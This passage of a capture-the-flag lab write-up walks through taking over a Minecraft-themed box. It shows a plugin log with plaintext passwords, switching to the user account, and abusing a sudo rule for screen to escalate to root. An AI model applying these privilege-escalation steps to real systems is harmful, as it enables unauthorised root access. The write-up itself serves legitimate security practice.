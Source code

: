 However, I cannot crack the hash even I know its hash-type is **MD5**. So I lookup to the **log.txt** file and figure out the password in plaintext:

```
[REDACTED]@cybercrafted:/opt/minecraft/cybercrafted/plugins/[REDACTED]$ cat log.txt

[2021/06/27 11:25:07] [BUKKIT-SERVER] Startet [REDACTED]!
[2021/06/27 11:25:16] cybercrafted registered. PW: [REDACTED]
[2021/06/27 11:46:30] [BUKKIT-SERVER] Startet [REDACTED]!
[2021/06/27 11:47:34] cybercrafted logged in. PW: [REDACTED]
[2021/06/27 11:52:13] [BUKKIT-SERVER] Startet [REDACTED]!
[2021/06/27 11:57:29] [BUKKIT-SERVER] Startet [REDACTED]!
[2021/06/27 11:57:54] cybercrafted logged in. PW: [REDACTED]
[2021/06/27 11:58:38] [BUKKIT-SERVER] Startet [REDACTED]!
[2021/06/27 11:58:46] cybercrafted logged in. PW: [REDACTED]
[2021/06/27 11:58:52] [BUKKIT-SERVER] Startet [REDACTED]!
[2021/06/27 11:59:01] madrinch logged in. PW: Password123

[2021/10/15 17:13:45] [BUKKIT-SERVER] Startet [REDACTED]!
[2021/10/15 20:36:21] [BUKKIT-SERVER] Startet [REDACTED]!
[2021/10/15 21:00:43] [BUKKIT-SERVER] Startet [REDACTED]!
[2023/09/29 16:07:13] [BUKKIT-SERVER] Startet [REDACTED]!
```

Now it is easier for me to become user **cybercrafted** and get the user flag:

```
[REDACTED]@cybercrafted:/opt/minecraft/cybercrafted/plugins/[REDACTED]$ su cybercrafted
[sudo] password for cybercrafted:
cybercrafted@cybercrafted/opt/minecraft/cybercrafted/plugins/[REDACTED]$: cd
cybercrafted@cybercrafted:~$ cat user.txt
THM{[REDACTED]}
```

## Vertical Privilege Escalation

```
cybercrafted@cybercrafted:~$ sudo -l
[sudo] password for cybercrafted:
Matching Defaults entries for cybercrafted on cybercrafted:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cybercrafted may run the following commands on cybercrafted:
    (root) /usr/bin/screen -r cybercrafted
```

Thanks to the [exploit-notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-screen-privilege-escalation/) that instruct the way to exploit the **/usr/bin/screen -r** by pressing `Ctrl+a+c`, I simply execute the command with **sudo**:

```
cybercrafted@cybercrafted:~$ sudo /usr/bin/screen -r cybercrafted
```
